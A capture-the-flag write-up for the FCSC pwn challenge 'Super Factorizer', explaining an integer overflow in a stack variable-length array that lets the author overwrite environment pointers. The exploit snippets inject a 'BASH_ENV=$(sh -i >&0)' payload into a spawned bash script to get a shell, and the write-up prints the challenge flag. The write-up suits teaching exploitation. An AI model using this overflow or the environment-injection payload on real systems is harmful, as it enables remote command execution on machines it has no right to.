

# Super Factorizer


- Category : `pwn`
- Difficulty : :star: :star:

- Solves : `4`

- Author : `XeR`


**Description**

> Je trouve qu'ils font un peu trop les malins les gens qui font de la crypto. Moi aussi je peux factoriser des nombres !
>
> **Note :** la commande pour lancer le binaire côté serveur est : `timeout -k 121 120 stdbuf -o0 /app/super-factorizer`.


**Attachments**

- `super-factorizer`
- `super-factorizer.c`
- `libc-2.36.so` / `ld-2.36.so`
- `factor.sh`


**TL;DR**

`Super Factorizer` was a medium difficulty pwn challenge written by `XeR` featuring an integer overflow during the computation of a dynamically allocated buffer on the stack. This could be abused to overwrite environment variables which allows remote command execution by injecting environment variables inside the process executed by the program. 


---


### Program overview


Here is the source file of the challenge : 

```c
/* SPDX-License-Identifier: GPL-2.0-or-later
 *
 * This program is free software: you can redistribute it and/or modify it under
 * the terms of the GNU General Public License as published by the Free Software
 * Foundation, either version 2 of the License, or (at your option) any later
 * version.
 *
 * This program is distributed in the hope that it will be useful, but WITHOUT
 * ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS
 * FOR A PARTICULAR PURPOSE. See the GNU General Public License for more
 * details.
 *
 * You should have received a copy of the GNU General Public License along with
 * this program. If not, see <https://www.gnu.org/licenses/>.
 */
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

static void motd()
{
	puts("[ SuperFactorizer ]");
	puts("");
}

static int factorize(size_t count)
{
	char* args[1 + count + 1];

	args[0] = "./factor.sh";
	args[1] = NULL;


	for(size_t i = 0; printf("i=%ld count=%ld\n", i, count) && i < count; i++) {
		const size_t idx = 1 + i;
		args[idx + 1] = NULL;

		printf("nums[%zu]: ", idx);

		size_t n;
		ssize_t r = getline(args + idx, &n, stdin);
		if(0 > r) {
			perror("getline");
			return EXIT_FAILURE;
		}

		// Remove LF
		if(0 < r && '\n' == args[idx][r - 1])
			args[idx][--r] = 0;

		// If this is empty, bail out early
		if(0 == r) {
			free(args[idx]);
			args[idx] = NULL;
			break;
		}
	}
	puts("\n");

	// Delegate to factor (coreutils)
	execv(*args, args);
	perror("execv");

	return EXIT_FAILURE;
}

int main(void)
{
	motd();

	ssize_t count;
	printf("Size of list> ");
	
	if(1 != scanf("%zd%*c", &count)) {
		fputs("This is not a number\n", stderr);
		return EXIT_FAILURE;
	}

	if(count <= 0) {
		fputs("List should have at least 1 element\n", stderr);
		return EXIT_FAILURE;
	}

	return factorize((size_t)count);
}
```


The program is actually really simple, it reads a list of numbers provided by the user and executes `./factor.sh [numbers...]` using `execv` .

The `factor.sh` script is a simple `bash` script wrapper which applies a timeout to the `factor` command ([from the `coreutils` package](https://github.com/coreutils/coreutils/blob/master/src/factor.c)).

```bash
#!/bin/bash
# SPDX-License-Identifier: GPL-2.0-or-later
#
# This program is free software: you can redistribute it and/or modify it under
# the terms of the GNU General Public License as published by the Free Software
# Foundation, either version 2 of the License, or (at your option) any later
# version.
#
# This program is distributed in the hope that it will be useful, but WITHOUT
# ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS
# FOR A PARTICULAR PURPOSE. See the GNU General Public License for more
# details.
#
# You should have received a copy of the GNU General Public License along with
# this program. If not, see <https://www.gnu.org/licenses/>.
#

# If I can't factor it in 5 seconds, it's probably unsolvable
exec timeout 5 factor -- "$@"
```


Here is an example usage of this program : 

```shell
$ ./super-factorizer 
[ SuperFactorizer ]

Size of list> 2
nums[1]: 1337
nums[2]: 31337


1337: 7 191
31337: 31337
```


### Bug Hunting

Now let's hunt for bugs !


#### `factor.sh`

The first thing I checked *just to be sure* was if we could actually perform an argument injection while executing the script.

```bash
exec timeout 5 factor -- "$@"
```

The arguments of the `factor.sh` script are passed to the `factor` command using the bash built-in variable `$@`  which extends to `"$1" "$2" ... "$n"` which is safe to command injection. The arguments are also separated with `--` such that we can't insert any other legitimate argument.

For example:

```shell
$ ./factor.sh '`id`' '--help'
`id` --help
factor: ‘`id`’ is not a valid positive integer
factor: ‘--help’ is not a valid positive integer
```

To be honest I wasn't expecting much from these tests, but it's always good to give it a try !


#### `super-factorizer.c`

Let's now check the C source which looks more interesting.

The first thing the program does is asking the amount of arguments to pass to `factor.sh`:

```c
ssize_t count;
printf("Size of list> ");

if(1 != scanf("%zd%*c", &count)) {
    fputs("This is not a number\n", stderr);
    return EXIT_FAILURE;
}

if(count <= 0) {
    fputs("List should have at least 1 element\n", stderr);
    return EXIT_FAILURE;
}
```

Nothing fancy here, `scanf` is used with the `%zd` formatter in order to read a `size_t` number from `stdin`. The `%*c` formatter is used to empty the remaining characters inside the `stdin` buffer. 

A check is then performed against the `count` variable, to ensure the number we entered is positive. The type of the `count` variable is `ssize_t` which means "a 64-bit signed integer", so a valid `count` value must have its most significant bit (MSB) set to 0.


Next, the `factorize` function is called with `count` as argument, here is the code of the `factor` function

```c
static int factorize(size_t count)
{
	char* args[1 + count + 1];

	args[0] = "./factor.sh";
	args[1] = NULL;


	for(size_t i = 0; printf("i=%ld count=%ld\n", i, count) && i < count; i++) {
		const size_t idx = 1 + i;
		args[idx + 1] = NULL;

		printf("nums[%zu]: ", idx);

		size_t n;
		ssize_t r = getline(args + idx, &n, stdin);
		if(0 > r) {
			perror("getline");
			return EXIT_FAILURE;
		}

		// Remove LF
		if(0 < r && '\n' == args[idx][r - 1])
			args[idx][--r] = 0;

		// If this is empty, bail out early
		if(0 == r) {
			free(args[idx]);
			args[idx] = NULL;
			break;
		}
	}
	puts("\n");

	// Delegate to factor (coreutils)
	execv(*args, args);
	perror("execv");

	return EXIT_FAILURE;
}
```


Firstly, `args`, a variable-length array (`VLA`) is allocated on the stack, it is used to store the arguments list (`argv`) passed to `factor.sh`. This list is initialized to `{ "./factor.sh", NULL }`.

Then a loop is used to  read `count` lines, which will be read using the `getline` function. 

According to the manual, the `getline` function reads input until a newline and allocates the read buffer on the heap if the value pointed by `*lineptr` is NULL and the value pointed by `n` is 0.
```
ssize_t getline(char **lineptr, size_t *n, FILE *stream);

	getline()  reads  an  entire line from stream, storing the address of the buffer containing the text into *lineptr.  The buffer is null-terminated and includes the newline character, if one was found.

	If *lineptr is set to NULL and *n is set 0 before the call, then getline() will allocate a buffer for storing the line.  This buffer should be freed by the user program even if getline() failed.
```

Here, `getline` is called with the following arguments : 

```c
size_t n;
ssize_t r = getline(args + idx, &n, stdin);
if(0 > r) {
    perror("getline");
    return EXIT_FAILURE;
}
```

There is no prior initialization to `NULL` of `args + idx`, and `n` is not initialized either. A possible scenario would be that `args + idx` points to some pointer inside the stack or the libc and `n` contains a positive value, this would allow writing data to some memory area. These uninitialized values would come from the `scanf` stack trace.

While reading [the source code of the provided libc](https://elixir.bootlin.com/glibc/glibc-2.36.9000/source/libio/iogetdelim.c#L40), I also noticed that the manual is not totally correct : 
```c
if (*lineptr == NULL || *n == 0)
{
  *n = 120;
  *lineptr = (char *) malloc (*n);
  if (*lineptr == NULL)
    {
  		result = -1;
  		goto unlock_return;
    }
}
```

In order to allocate the `*lineptr` buffer on the heap using `getline`, `*lineptr` **OR** `n` must be 0 / `NULL`.

Unfortunately I couldn't find a way to exploit this reliably. However let's keep it in mind for another challenge !


The rest of the interesting operations done on the buffer is just stripping the terminating newline character, which is done correctly : 
```c
// Remove LF
if(0 < r && '\n' == args[idx][r - 1])
    args[idx][--r] = 0;
```

There is also an additional exit condition of the loop, which triggers a free of the last line entered by the user : 

```c
// If this is empty, bail out early
if(0 == r) {
    free(args[idx]);
    args[idx] = NULL;
    break;
}
```

Same problem than above, if both `args[idx]` and `n` would contain a valid value such that `getline` doesn't allocate a chunk for the buffer, `free(args[idx])` would free an invalid chunk. This can be used for example to corrupt free-lists. However, several checks done by the libc (version `2.36`) must be valid, which is difficult in this situation as we can't exactly control the pointer nor the size.


Now, we have a pretty good understanding of the whole program. However, there is still something we didn't investigate. As I said previously :

> Firstly, `args`, a variable-length array (`VLA`) is allocated on the stack

A variable-length array, allocated on the **stack**, this is something unusual. Moreover, we can control the exact size of the array with the `count` parameter :

```c
char* args[1 + count + 1];
```


According to [`GCC` documentation](https://gcc.gnu.org/onlinedocs/gcc/Variable-Length.html) this is roughly equivalent to [`alloca`](https://man7.org/linux/man-pages/man3/alloca.3.html), which can be used to allocate some space from the stack at runtime. The only differences are about the lifetime of the allocation. In this case the `args` VLA is "freed" during the function epilogue.

In practice, the allocation is done by subtracting the required size to `rsp` and assigning it to a variable. 

```c
allocation = align8(rsp - align16(size * sizeof (*array)))
```

Here, the start of the `args` array can be determined as : 

```c
args = align8(rsp - align16((count + 2) * 8))
```

For example, with `count` = 2, here is the stack representation : 



As we are subtracting a controlled value from `rsp`, what could go wrong if `align16((count + 2) * 8)` is negative ?

Yes, `args` would be greater than the initial `rsp`, making it overlap with the upper stackframes / saved registers.

*But you said there was a check inside the main function, ensuring `count` is not negative*.

Correct ! Indeed `count`  can't be negative, but `(count + 2) * 8` can ! This is because the multiplication by 8 (`sizeof char *`) can cause an integer overflow. 

For example, let's take `count = 0x1ffffffffffffff6`.  As the MSB is not set, this value is passing the check in the `main` function. Now let's compute the address of the `args` array :

```
args = align8(rsp - align16((count + 2) * 8))
args = align8(rsp - align16((0x1ffffffffffffff6 + 2) * 8))
args = align8(rsp - (0xffffffffffffffc0))
args = align8(rsp - (-0x40))
args = align8(rsp - (-0x40))
args = rsp + 0x40
```

We successfully managed to make the `args` array overlap with data upper (in terms of addresses) in the stack.

Let's write a simple function that computes `count` value for a given value `n` such that `args = rsp + n` : 

```python
count_overflow = lambda n: ((-n & 0xffffffffffffffff) // 0x8 - 2) # Assume n is aligned to 16
```


### Exploiting the bug

At this point we've got a nice primitive to write at a controlled offset (*aligned to 16 so partially controlled offset*) in the stack heap addresses pointing to controlled data. But there is still a problem : `ASLR` is enabled and the binary is compiled as `PIE`. As we didn't find a way to get a leak, exploitation might be hard...

But before doing any magic trick let's simply enumerate what we can target : 

- `factorize stackframe`: some variables are interesting to target, especially the one at `rbp - 0x30` which is used to pass arguments to `execv`

  - ``` 
    0000137f  mov     rax, qword [rbp-0x30 {args_1}]
    00001383  mov     rax, qword [rax]
    00001386  mov     rdx, qword [rbp-0x30 {args_1}]
    0000138a  mov     rsi, rdx
    0000138d  mov     rdi, rax
    00001390  call    execv
    ```

  - However by overwriting this variable, we need to construct a valid array inside our allocated chunk, which requires... leaks.

- Saved registers: `rbp` and `rip` could be interesting targets as well

  - But `rip` requires a code address, and the heap is of course not executable
  - `rbp` might be usable to make a stack pivot, as there is 2 consecutive `leave ; ret` , but we end in the same problem, we need leaks to construct  a ROP chain.

- `main stackframe`: no variables are used after the call to `factorize`.

- Environment variables : This sounds way better ! We can write valid pointers, pointing to arbitrary data letting us corrupt the environment variables of the process. And especially it requires **no leaks** !


### Environment corruption to RCE

Targeting environment variables is cool ! But how can it lead to RCE ?

Let's remember the program is executing a binary using `execv`, which transmits the current process' `environ` to the spawned process.

```c
/* Execute PATH with arguments ARGV and environment from `environ'.  */
int execv (const char *path, char *const argv[])
{
  return __execve (path, argv, __environ);
}
```

That means we can inject arbitrary environment variables to `factor.sh`. 

Let's make a simple POC to prove this. We can modify `factor.sh` such that it prints its environment for debugging purposes : 

```shell
strings /proc/self/environ
```

And write at a specific offset, targetting the first entry of `envp` : 

```python
count_overflow = lambda n: ((-n & 0xffffffffffffffff) // 0x8 - 2)
offset = 0x1b0 # &envp[0]
r.sendline(str(count_overflow(offset)).encode())
r.sendline(b'AAAA=BBBB')
r.sendline(b'') # Exit the loop and calls execv
```

Output : 

```
[ SuperFactorizer ]

Size of list> nums[1]: nums[2]: 

PWD=super_factorizer
AAAA=BBBB
SHLVL=1
_=/usr/bin/strings
```

We can see our custom variable `AAAA` is successfully injected inside the environment of the `factor.sh` script. Now which variable can we target ?

After searching for a moment some useful environment variables to smuggle inside a `bash` script, I found [this](https://0xn3va.gitbook.io/cheat-sheets/web-application/command-injection#bash_env), which mentioned the `BASH_ENV` .

According to the [`bash` manual](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html) : 

```
BASH_ENV
If this variable is set when Bash is invoked to execute a shell script, its value is expanded and used as the name of a startup file to read before executing the script. See Bash Startup Files.
```

Here is our free RCE ! We can inject `BASH_ENV=$(sh)` to get a shell.

However this didn't work remotely, it seems that the `stdout` file descriptor is closed by doing this. Redirecting it to stdin did the trick : `BASH_ENV=$(sh -i >&0)`.

```
[*] Switching to interactive mode
[ SuperFactorizer ]

Size of list> nums[1]: nums[2]: 

$ id && cat flag.txt
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
FCSC{0f531ad9168d64c1d520a82593a2d968fce8478e5a6d1a310ea5531a6724dc3e}
```


### Conclusion

`Super Factorizer` was a fun challenge which proves that even if a vulnerability can't be exploited the *traditional* way, a data-only approach might be the key.

